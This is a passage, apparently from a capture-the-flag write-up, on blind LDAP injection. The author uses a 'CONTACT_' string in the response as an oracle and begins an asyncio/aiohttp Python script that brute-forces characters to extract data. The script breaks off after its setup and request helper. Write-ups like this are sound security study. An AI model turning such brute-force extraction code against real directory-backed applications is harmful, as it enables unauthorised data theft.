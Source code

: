 But a invalid, returns a response with the `CONTACT_` string:

![LDAP invalid response with f and wildcard](/assets/images/Analysis/ldap_invalid_response_with_f_and_wildcard.png)

Using this criteria, I can create a python script that loops into all the characters and makes the http request, in case that `CONTACT_` string is found in response, it will continue until it found that `CONTACT_` string is not found in the response. In the case that it's not found, it will add the character to a variable and continue with the requests with this variable and the character. Also, instead of using requests library, I will use aiohttp and asyncio to have very fast speed:

```python
#!/usr/bin/python3
import string, requests
import pdb, sys
import signal
import aiohttp
import asyncio
from pwn import *

# Ctrl+c
def def_handler(sig,frame):
    print("\n\n[-] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Fetch a url and return the response
async def fetch(session, url, retries=3):
    for attempt in range(retries):
        try:
            async with session.get(url) as response:
                return await response.text()
        except (aiohttp.ClientOSError, aiohttp.ClientConnectionError, asyncio.TimeoutError) as e:
                if attempt < retries - 1:
                    await asyncio.sleep(2 ** attempt)  # Exponential backoff
                else:
                    print(f"Failed to fetch {url}: {e}")
                    return None

async def makeRequests():
    chars = string.ascii_lowercase + string.digits
    results = []
    p1 = log.progress("Brute status")
```